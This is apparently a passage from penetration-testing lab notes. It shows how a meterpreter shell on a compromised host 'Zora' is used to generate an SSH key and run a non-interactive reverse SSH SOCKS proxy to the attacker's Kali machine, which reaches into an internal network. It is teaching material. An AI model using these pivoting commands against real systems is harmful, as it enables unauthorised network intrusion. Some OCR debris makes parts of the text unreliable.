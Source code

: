 ```bash
ssh -V
OpenSSH_8.1p1, OpenSSL 1.1.1d 10 Sep 2019
```

- **Zora is running ssh version OpenSSH\_8.1p1**, which should support this feature.

-   If we can get this to work, we will have full **network access to the 10.5.5.0/24 sandbox internal network through a SOCKS proxy running on our Kali machine.**

- Since we only have access to a meterpreter shell, we need to create a new ssh key on Zora and run the ssh client in a way that does not require interaction. 

- ** First, let’s generate an ssh key on Zora.

- ** We will use the meterpreter shell for this.

```bash
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/var/lib/mysql/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Created directory '/var/lib/mysql/.ssh'.
Your identification has been saved in /var/lib/mysql/.ssh/id_rsa.
Your public key has been saved in /var/lib/mysql/.ssh/id_rsa.pub.
...
cat /var/lib/mysql/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4cjmvS... mysql@zora
```

- With the SSH keys generated, we need to set up the authorized\_keys file on our Kali machine for the kali user with the same type of restrictions as we did earlier. 

- An example of the entry can be found in . 

```bash
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",
no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4c
jmvS... mysql@zora
```

- The “from” IP does not have to change since the traffic is still coming from the external firewall as far as our Kali system is concerned.

-   The ssh command we use does have to change a bit though. 
   
-   This time, we don’t need multiple remote port forwarding options. 

-   We will only need one port forwarding option, which is -R 1080. 

-   By not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali server.

-   739 We also need to change the location of the private key.

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /
var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
```
